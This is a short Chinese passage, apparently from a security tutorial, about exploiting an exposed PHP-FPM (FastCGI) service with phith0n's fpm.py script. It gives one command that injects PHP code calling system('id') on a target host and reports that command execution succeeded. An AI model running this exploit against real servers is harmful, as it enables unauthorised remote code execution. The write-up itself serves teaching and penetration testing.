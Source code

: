 [![](assets/1698897074-2776fc88d5399c1969fc6e97353c9f60.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134736-8e1130a0-b2e5-1.png)

### 利用 phith0n 大神的 fpm.py

-   项目地址：[https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)

> “兼容 Python2 和 Python3，方便在内网用。之前好些人总是拿着一个 GO 写的工具在用，又不太好用。实际上理解了 fastcgi 协议，再看看这个源码，就很简单了。“
> 
> ​ —— phith0n

利用方式：

```bash
python fpm.py 192.168.43.82 /var/www/html/index.php -c "<?php system('id'); exit(); ?>"
```

如下图所示，成功执行系统命令，利用成功：
